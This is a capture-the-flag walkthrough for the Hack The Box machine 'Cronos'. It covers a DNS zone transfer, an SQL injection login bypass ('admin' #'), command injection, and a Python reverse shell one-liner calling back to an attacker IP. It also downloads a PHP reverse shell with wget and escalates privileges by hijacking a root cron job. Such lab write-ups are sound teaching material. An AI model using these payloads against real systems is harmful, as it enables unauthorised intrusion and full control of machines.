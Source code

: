 # [Cronos](https://app.hackthebox.com/machines/Cronos)

```bash
nmap -p0-1023 -sC -sV 10.10.10.13
```
![Alt text](img/image.png)


Let's add this ip address to '/etc/hosts' file.

![Alt text](img/image-1.png)

Now, let's run dig(domain informatioin groper) to get the subdomains information.

```bash
dig axfr cronos.htb @10.10.10.13
```

![Alt text](img/image-2.png)


Let's add these subdomains to our '/etc/hosts' file.

```bash
└─# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.10.13 cronos.htb
10.10.10.13 admin.cronos.htb
10.10.10.13 ns1.cronos.htb
10.10.10.13 www.cronos.htb
```


Let's do SQLI to 'admin.cronos.htb' subdomain.
For this, I catch request via proxy and send it to repeater.

Then start to do SQL injection attack with payloads.

![Alt text](img/image-3.png)


And as a result, we see that below payloads can be used to bypass authentication.

![Alt text](img/image-4.png)


username=>admin' #

password=>anything

We are on admin page.

![Alt text](img/image-5.png)


We see that here we can execute command(command injection vulnerability).

![Alt text](img/image-6.png)

We can see the version of python.

![Alt text](img/image-7.png)


Now, it's time to have reverse shell.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.7",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We got reverse shell.

![Alt text](img/image-8.png)

![Alt text](img/image-9.png)


Let's spawn a shell with python.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash");'
```

user.txt

![Alt text](img/image-11.png)


Let's look at cron jobs. We see that there is a cron job that runs every minute, it artisan file.

![Alt text](img/image-10.png)

We create our malicious php reverse shell file.

![Alt text](img/image-12.png)


Now, it's time to send malicious php file into target machine.

```bash
python3 -m http.server --bind 10.10.16.7 8080   #open http server to send
```

![Alt text](img/image-13.png)


```bash
wget http://10.10.16.7:8080/php-reverse-shell.php #to donwload malicious php file
```
![Alt text](img/image-14.png)


And we replace our current artisan file with malicious php file.

![Alt text](img/image-15.png)


root.txt

![Alt text](img/image-16.png)
